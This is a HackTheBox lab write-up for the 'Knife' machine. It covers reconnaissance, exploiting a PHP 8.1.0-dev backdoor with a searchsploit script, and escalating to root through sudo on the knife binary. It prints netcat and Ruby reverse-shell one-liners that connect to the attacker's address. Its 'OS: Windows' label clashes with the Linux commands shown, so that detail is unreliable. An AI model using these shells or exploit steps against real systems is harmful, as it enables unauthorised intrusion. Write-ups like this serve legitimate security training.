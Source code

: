 #  Knife - HackTheBox WriteUp

OS: Windows 

Difficulty: Easy

IP: 10.10.10.242

Vulnerabilities: 

### Scanning, Recon & Information Gathering

The penetration test was started by running a quick full TCP nmap scan against the target:

nmap -p- -T4 10.10.10.242

![nmap_quick](../images/knife/nmap.jpg)

#### Service Enumeration 

**Port 80**

![home](../images/knife/home.jpg)

Navigating to the home page and checking the headers via a proxy like burp:

![php 8_1_0-dev](../images/knife/php_version.png)

PHP/8.1.0-dev is identified as PHP version

Searching for exploits:

searchsploit PHP '8.1.0-dev'

![searchsploit_php8_1_0-dev](../images/knife/searchsploit_php810dev.jpg)

Using the exploitt script and running the following commands will lead to a shell on the target:

```
searchsploit -m 49933.py
mv 49933.py php_8_1_0_dev_exploit.py
python3 php_8_1_0_dev_exploit.py http://10.10.10.242/
id
cat /home/james/user.txt
```

![reverse shell](../images/knife/user.jpg)

Using netcat we can get a reverse shell

```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.114 443 >/tmp/f```

![reverse shell](../images/knife/rev.jpg)

Privilege Escalation:


Upgrade the terminal using python
```
$ which python
$ which python3
/usr/bin/python3
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
james@knife:/$ ^Z
[1]+  Stopped                 nc -lnvp 443
root@kali:/pwn_share/HTB/knife# stty raw -echo
root@kali:/pwn_share/HTB/knife# nc -lnvp 443

james@knife:/$ export TERM=xterm
james@knife:/$
```

Checking for what the user can do with sudo:

```james@knife:/$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Reading the knife help and documentation, we find that it can execute ruby scripts.

```sudo /usr/bin/knife --help```

![knife_help](../images/knife/knife_help.jpg)

creating a script in the /tmp directory with the following contents

```exit if fork;c=TCPSocket.new("10.10.14.114","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end```

This will initiate a reverse shell connection back to the attacker's machine where a listener is running.

All of this can be done using reverse shell generator 

```rsg 10.10.14.114 443 ruby```

And then copying the contents to a new script in /tmp/my.rb

Executing the script
```sudo /usr/bin/knife exec '/tmp/my.rb'```

id
cat /root/root.txt



![root](../images/knife/root.jpg)